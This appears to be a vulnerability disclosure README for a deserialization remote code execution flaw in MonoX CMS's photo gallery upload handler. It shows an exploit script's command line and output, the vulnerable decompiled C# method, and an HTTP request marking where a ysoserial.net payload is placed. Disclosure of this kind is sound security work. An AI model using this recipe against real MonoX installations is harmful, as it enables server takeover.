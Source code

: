 # Photogallery - Remote Code Execution via Insecure Deserialization

## VulDB-Like Summary

A vulnerability has been found in the MonoX CMS for .NET up to v5.1.40.5152. It has been rated as critical. Affected by this issue are the classes `MonoX.MonoSoftware.MonoX.HTML5Upload` and `MonoX.MonoSoftware.MonoX.SilverLightUploadModule`. The manipulation of the of the **ctl00$ctl00$ctl01$ctl00$cp$cp$wpm$gwpsnPhotoGallery$snPhotoGallery$photoUpload$ctlUpload$handlerResponse** parameter leads to Remote Code Execution vulnerability. Using CWE to declare the problem leads to CWE-502. Impacted is Integrity and Availability. An attacker might be able execute arbitrary code within the application context, and use them to achive remote code execution within the underlying hosting server.

The weakness was presented 04/19/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). The advisory is shared for download at github.com. This vulnerability is handled as CVE-2020-XXXX. The attack may be launched remotely. A single form of authentication is required for exploitation. Technical details are known and an exploit is publicly available.

## Proof-of-Concept

An exploit script is provided in this repository, which may be used to easily verify and exploit the vulnerability.

The script should give the following output, proving the vulnerability.

```
$ python3 exploit.py -t http://monox.local -u admin -p Passw0rd! -c calc -y path/to/ysoserial.exe
[*] Logging in
[*] Triggering RCE
[+] Success!
```

When the script finishes, a calculator should spawn in the target server.

## Walkthrough

This vulnerability was easily identified by code inspection. The affected function is the following:

```csharp
//#Kw Decompiled function name
private void #Kw(object sender, EventArgs e)
    {
        if (this.EnableFileGallery && ApplicationSettings.TrustLevel == AspNetHostingPermissionLevel.Unrestricted)
        {
            string[] array = this.handlerResponse.Value.Split(string.Format("{0},", "(SEPARATOR)"));
            foreach (string text in array)
            {
                string s = text.Replace("(SEPARATOR)", string.Empty);
                SnFileDTO snFileDTO = null;
                try
                {
                    snFileDTO = (SnFileDTO)BinarySerializer.Deserialize(Convert.FromBase64String(s));
                }
                catch
                {
                    snFileDTO = null;
                }
                if (snFileDTO != null)
                {
                    this.UploadedFileDTOs.Add(snFileDTO);
                }
            }
            this.handlerResponse.Value = string.Empty;
            this.UploadedFileDTOs = null;
            this.fileGallery.BindData();
        }
        this.OnFilesUploaded(this.EntityId, this.EntityType);
    }

```
This function got called after an image was uploaded in the gallery. Intercepting the traffic with Burp revealed the endpoint. The litmus test was finding a base64 encoded string followed by `(SEPARATOR)`. An example request is following:

<pre>
<code>
POST /MonoX/Pages/SocialNetworking/lng/en-US/PhotoGallery.aspx HTTP/1.1
Host: monox.local
User-Agent: Mozilla/5.0 Gecko/20100101 Firefox/71.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Cookie: {Stripped}
Content-Length: 5240

ctl00%24ctl00%24ctl01%24ctl00%24cp%24cp%24wpm%24gwpsnPhotoGallery%24snPhotoGall
ery%24photoUpload%24ctlUpload%24handlerResponse=<strong style="color: blue;">{base64-enc-payload}</strong><strong style="color: red;">(SEPARATOR)</strong>
&ctl00_ctl00_ctl01_ctl00_cp_cp_wpm_gwpsnPhotoGallery_snPhotoGallery_photoUpload
_ctlUpload_fileGallery_wndManager_ClientState=&ctl00_ctl00_ctl01_ctl00_editorSo
urceWindowManager_ClientState=&__VIEWSTATE_WAOKEY=&__VIEWSTATE=&__SCROLLPOSITIO
NX=0&__SCROLLPOSITIONY=0&__ASYNCPOST=true&ctl00%24ctl00%24ctl01%24ctl00%24cp%24
cp%24wpm%24gwpsnPhotoGallery%24snPhotoGallery%24photoUpload%24ctlUpload%24btnPo
stback=
</code>
</pre>

With these information, it was fairly easy to trigger an RCE via deserialization crafting a payload with **ysoserial.net**.

## Remediation

Currently, no fixes are available for this issue.

## References

*   [CWE-1236](https://cwe.mitre.org/data/definitions/1236.html)
*   [CWE-502](https://cwe.mitre.org/data/definitions/502.html)
*   [OWASP Top 10 - A8-Insecure Deserialization](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A8-Insecure_Deserialization)